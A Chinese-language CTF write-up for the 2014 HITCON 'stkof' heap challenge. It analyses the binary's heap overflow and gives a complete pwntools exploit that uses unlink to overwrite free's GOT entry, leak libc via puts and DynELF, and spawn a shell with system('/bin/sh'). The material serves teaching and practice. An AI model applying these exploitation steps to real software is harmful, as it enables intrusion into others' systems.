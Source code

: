 ```yaml
---
title: 2014 HITCON stkof (Unlink)
date: 2018-03-28 21:23:18
categories: 
tags:
	- CTF
	- unlink

---
```




## 查看信息

```shell
$ checksec stkof 
[*] '/home/pwn/\xe6\xa1\x8c\xe9\x9d\xa2/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出，程序是 64 位的，主要开启了 Canary 和 NX 保护。



## 程序分析

1. 分配指定大小的内存，并在bss段记录对应 chunk 的指针，假设其为global。这里需要注意 ， buf[1] 为第一个。



![img-1](HITCON2014-stkof/img-1.jpg)



1. 根据指定索引，以及指定大小向指定内存处，读入数据。可见，这里存在堆溢出的情况，因为这里读入字节的大小是由我们来控制的。
2. 根据指定索引，释放已经分配的内存块。
3. 没有什么作用。

**值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。这里经过测试，会申请两个缓冲区，分别大小为1024 和 1024。**

**初次调用 fgets 时，malloc会分配缓冲区 1024 大小。**



## 思路

使用pwntools，利用unlink漏洞，改写free为puts，实现任意地址泄露。然后使用DynELF找到system，再将free替换为system，执行system(‘/bin/sh’)。



```python
from pwn import *
#context.log_level = 'debug'
sock = process('./stkof')

def add(len):
    sock.sendline('1')
    sock.sendline(str(len))
    sock.recvn(5)

def edit(index, content):
    sock.sendline('2')
    sock.sendline(str(index))
    sock.sendline(str(len(content)))
    sock.send(content)
    sock.recvn(3)

def delete(index):
    sock.sendline('3')
    sock.sendline(str(index))

#leak at least 1 byte then everything is OK
def peek(addr):
    edit(2, 'A'*16 + p64(addr))
    delete(1) # push(addr)
    str = sock.recvuntil('OK\n')
    result = str.split('\x0aOK')[0]
    if result == '':
        return '\x00'
    return result

#chunk list
bag = 0x602140  

add(0x48) #1
add(0x48) #2
add(0x100-8) #3
add(0x100-8) #4
add(0x100-8) #5

# 反汇编代码中表示 i++ ， 先相加在赋值 ，请看代码下面
# x 指向buf[2]
x = bag + 2*8
fd = x - 0x18
bk = x - 0x10

edit(2, p64(0) + p64(0) + p64(fd) + p64(bk) + 'C'*32 + p64(0x40) + '\x00')

#free后 buf[2] 可以写入 &buf[2]-3，请看代码下面
delete(3)
sock.recvn(3)

puts_plt = 0x400760
free_got = 0x602018
atoi_got = 0x602088
alarm_got = 0x602048
puts_got = 0x602020

#replace free by puts
edit(2, 'A'*16 + p64(free_got))
edit(1, p64(puts_plt)) 
# 为什么是puts_plt 而不是puts_got， 
# 根据延迟绑定技术， 我猜想是：
# 函数执行后 ，puts_plt 才是真正的函数执行代码的地址
# puts 没有执行过， 所以用 puts_plt


d = DynELF(peek, elf=ELF('./stkof'))
system_addr = int(d.lookup('system', 'libc'))

#write /bin/sh
edit(4, '/bin/sh\0')

#replace free by system
edit(2, 'A'*16 + p64(free_got))
edit(1, p64(system_addr))

#call system(/bin/sh)
delete(4) #system(/bin/sh)

sock.interactive()
```

第一次 free() 控制读写

0x602140 为 buf[0] 的位置，但是chunk list 开始保存的位置在0x602148 即 buf[1]。

0x602150 即 buf[2] 可以写入 0x0000000000602138 ， 覆盖 chunk lish 。

```
0x602140:	0x0000000000000000	0x00000000026b0020
0x602150:	0x0000000000602138	0x00000000026b04d0
0x602160:	0x00000000026b05d0	0x00000000026b06d0
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
```



## 参考：

https://blog.csdn.net/fuchuangbob/article/details/51649353

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/#_3

http://yunnigu.dropsec.xyz/2017/02/24/%E5%BB%B6%E8%BF%9F%E7%BB%91%E5%AE%9A%E6%8A%80%E6%9C%AF%E5%8E%9F%E7%90%86/